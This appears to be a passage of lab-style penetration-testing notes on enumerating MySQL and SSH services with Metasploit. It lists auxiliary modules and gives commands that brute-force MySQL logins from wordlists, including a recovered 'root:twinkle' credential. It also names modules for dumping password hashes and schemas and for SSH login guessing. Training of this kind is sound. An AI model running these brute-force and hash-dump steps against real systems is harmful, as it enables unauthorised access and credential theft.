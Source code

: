 <br>

### 5.5. MySQL Enumeration

**MySQL** is an open-source relational database management system (RDBMS). It is one of the most widely used database systems in the world and is commonly used in web applications and is a central component of the LAMP stack (Linux, Apache, MySQL, PHP/Python/Perl). The default port for MySQL server is 3306. This port is used for client-server communication in MySQL database management systems.

**Objective**: Your task is to run the following auxiliary modules against the target.

```shell
# Start Metasploit and create a new workspace.
search type:auxiliary name:mysql
setg RHOSTS <target_IP>
```

- **auxiliary/scanner/mysql/mysql_version**
- **auxiliary/scanner/mysql/mysql_login**
```shell
use auxiliary/scanner/mysql/mysql_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt # root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run # Success: 'root:twinkle'
```
- **auxiliary/admin/mysql/mysql_enum**
- **auxiliary/admin/mysql/mysql_sql**
```shell
use auxiliary/admin/mysql/mysql_sql
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
```
- **auxiliary/scanner/mysql/mysql_file_enum** - *[Digininja reference.](https://digi.ninja/metasploit/mysql_file_enum.php)* 
- **auxiliary/scanner/mysql/mysql_hashdump**
- **auxiliary/scanner/mysql/mysql_schemadump**

<br>

### 5.6. SSH Enumeration

**SSH** (Secure Shell) is a network protocol that allows secure access to remote systems over an unsecured network. It provides encrypted communication between a client and a server, typically used for remote administration, file transfers, and tunneling. 

**Objective**: Your task is to run the following auxiliary modules against the target:
1) auxiliary/scanner/ssh/ssh_version
2) auxiliary/scanner/ssh/ssh_login

- **username**: /usr/share/metasploit-framework/data/wordlists/common_users.txt 
- **password**: /usr/share/metasploit-framework/data/wordlists/common_passwords.txt

- **auxiliary/scanner/ssh/ssh_version**

```shell
search type:auxiliary name:ssh
use auxiliary/scanner/ssh/ssh_version
```
